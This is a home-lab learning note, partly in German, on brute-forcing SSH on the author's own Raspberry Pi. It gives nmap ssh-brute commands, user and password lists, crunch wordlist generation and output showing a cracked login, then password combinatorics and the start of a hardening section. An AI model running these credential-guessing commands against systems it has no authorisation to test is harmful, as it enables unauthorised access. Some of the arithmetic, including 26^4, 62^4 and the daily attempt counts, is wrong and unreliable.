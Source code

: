 # 02 - Brute Force Attack

## Ideas

- write a Python Script to generate passwords
- download a top XX list of the most common passwords
- use a tool to generate passwords

## Questions

- how long does it take to try 100/1000/10.000/1.000.000 passwords?
-

## User NMAP for brute force attack

```
nmap -p 22 --script ssh-brute --script-args userdb=users.txt,passdb=passwords.txt --script-args unpwdb.timelimit=0 192.168.0.217
```

## Check if Port 22 is open

```
nmap -p 22 -open <RASPBERRY-PI-IP-ADDRESS>
```

## Create User File

users.txt:

```
user
admin
root
pi
```

## Create Password File

passwords.txt:

```
123456
root
admin
pi
passwort
```

## Generate Password File with Crunch

```
brew install crunch
```

Create file with generated passwords between 3 and 6 characters:

```
crunch 3 6 0123456789abcdef -o 6chars.txt
```

Run brute force attack:

```
nmap -p 22 --script ssh-brute --script-args userdb=6chars.txt,passdb=6chars.txt <RASPBERRY-PI-IP-ADDRESS>
```

Ergebnis:

```
nmap -p 22 --script ssh-brute --script-args userdb=u.txt,passdb=p.txt 192.168.0.217
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-25 16:23 CET
NSE: [ssh-brute] Trying username/password pair: foo:foo
NSE: [ssh-brute] Trying username/password pair: barz:barz
NSE: [ssh-brute] Trying username/password pair: leo:leo
foo
NSE: [ssh-brute] Trying username/password pair: foo:hi
hi
NSE: [ssh-brute] Trying username/password pair: barz:hi
NSE: [ssh-brute] Trying username/password pair: leo:hi
NSE: [ssh-brute] Trying username/password pair: foo:for
NSE: [ssh-brute] Trying username/password pair: barz:for
NSE: [ssh-brute] Trying username/password pair: leo:for
NSE: [ssh-brute] Trying username/password pair: foo:1234
NSE: [ssh-brute] Trying username/password pair: barz:1234
NSE: [ssh-brute] Trying username/password pair: leo:1234
Nmap scan report for raspberrypi (192.168.0.217)
Host is up (0.013s latency).

PORT   STATE SERVICE
22/tcp open  ssh
| ssh-brute:
|   Accounts:
|     leo:1234 - Valid credentials
|_  Statistics: Performed 12 guesses in 9 seconds, average tps: 1.3

Nmap done: 1 IP address (1 host up) scanned in 9.05 seconds
```

NMAP with no time limit:

```
nmap -p 22 --script ssh-brute --script-args userdb=6chars.txt,passdb=6chars.txt,unpwdb.timelimit=0 192.168.0.217
```

http://blog.wenzlaff.de/?p=16896

Anzahl Möglichkeiten:

- a-z: 26^4 = 456972
- a-z & A-Z 52^4 = 7311616
- a-z & A-Z & 0-9 = 13845841

## Combinatorics

Why is the math behind this important?

- characters: 1 / character-set: 0-9 = 10 possible passwords
- characters: 2 / character-set: 0-9 = 10^2 = 100 possible passwords (100 pw attempts / min. = 1 min.)
- characters: 3 / character-set: 0-9 = 10^3 = 1.000 possible passwords (100 pw attempts / min. = 10 min.)
- characters: 4 / character-set: 0-9 = 10^4 = 10.000 possible passwords (100 pw attempts / min. = 100 min. ~ 1,5h)
- characters: 5 / character-set: 0-9 = 10^5 = 100.000 possible passwords (100 pw attempts / min. = 6.000 pw attempts / h = 48.000 / day ~ 2 days)
- characters: 6 / character-set: 0-9 = 10^6 = 1.000.000 possible passwords (100 pw attempts / min. = 6.000 pw attemtps / h = 48.000 / day ~ 20 days)
- ...
- characters: 6 / character-set: a-z A-Z 0-9 = (26+26+10)^6 = 62^6 = 56.800.235.584 possible passwords (100 pw attemps / min. = 6.000 pw attempts / h = 48k / day = 17.520.000 / year ~ 3242 years)

Function to calculate the possible password combinations:

```
<CHARACTER-SET> ^ <NUMBER-OF-CHARACTERS>
```

Further reading: https://www.scientificamerican.com/article/the-mathematics-of-hacking-passwords/

# Lessons Learned

- Brute force attacks do not scale if the password and the used alphabet have a sufficient size
- Trying all username/password combinations will make the problem harder to solve -> this is why not exposing the information if a username is known is a good thing
- Don't try stupid things before doing the math

# Harden Raspberry Pi

## Firewall

### Install

https://www.blog.berrybase.de/blog/2022/02/23/den-raspberry-pi-absichern/#:~:text=Linux%20hat%20hierf%C3%BCr%20die%20Firewall,Befehl%20aus%20Code%2016%20installieren
